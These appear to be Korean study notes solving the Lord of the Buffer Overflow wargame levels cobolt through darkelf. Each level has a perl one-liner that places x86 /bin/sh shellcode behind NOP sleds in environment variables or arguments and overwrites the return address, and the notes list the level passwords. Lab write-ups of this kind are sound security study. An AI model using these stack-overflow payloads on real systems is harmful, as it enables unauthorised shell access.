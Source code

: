 셸코드 넣을 수 있는 부분 두가지
1. argument.
2. 환경변수에 업로드.

sol1) 환경변수 활용해서 풀이
export aaa=$(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
\x32이전에 \x90을 10000개 정도 올린 후에 풀어보면 더 셸코드 실행하기 편함
./cobolt $(perl -e 'print "a"x20 . "\x25\xff\xff\xbf"')
sol2) 매개변수 활용해서 풀이
./cobolt  $(perl -e 'print "a"x20 . "\x56\xfc\xff\xbf"') $(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')

*nop slade nop(no operation, not operation) nop => \x90 [nop x 100개][shell code] nop코드 있는 어떤 곳 중의 주소만 입력해도 그 뒤에 있는 셸코드 실행 가능.




(03) LEVEL3. cobolt / hacking exposed
GOBLIN
gets로 입력받음. 셸코드를 미리 입력해두고 파이프라인을 통해 텍스트 넘겨주고 실행시킴.(표준 출력->표준입력으로 넘겨줌) 뒤에 ;cat을 추가해서 넘겨주면 정확하게 값이 넘어감. 1. bash2로 변경 2. 환경변수 등록(export~) export hack=$(perl -e 'print "\x90"x10000 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 3. perl 작성 (perl -e 'print "a"x20 . "\xe2\xfb\xff\xbf"';cat)|./goblin

(04) LEVEL4. id: goblin // pw: hackers proof
ORC
1. argc<=1
2. memset environ(환경변수)
3. argv[1][47]=="\xbf";
r $(perl -e 'print "\x90"x19 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\xd0\xfa\xff\xbf"') ==>리턴주소가 argv[1]을 가리키게. ==>매개변수 2개로 풀어도 됨.

(05) LEVEL5: orc / cantata
WOLFMAN
1. argc<=1
2. memset environ(환경변수)
3. argv[1][47]=="\xbf"
4. memset buffer

./wolfman $(perl -e 'print "\x90"x19 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\x64\xfc\xff\xbf"')

(06) LEVEL6: wolfman / love eyuna
DARKELF

1. argc<=1
2. memset environ(환경변수)
3. argv[1][47]=="\xbf"
4. argv[1]<=48
5. memset buffer
./darkelf $(perl -e 'print "\x90"x19 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" . "\x44\xfc\xff\xbf"')
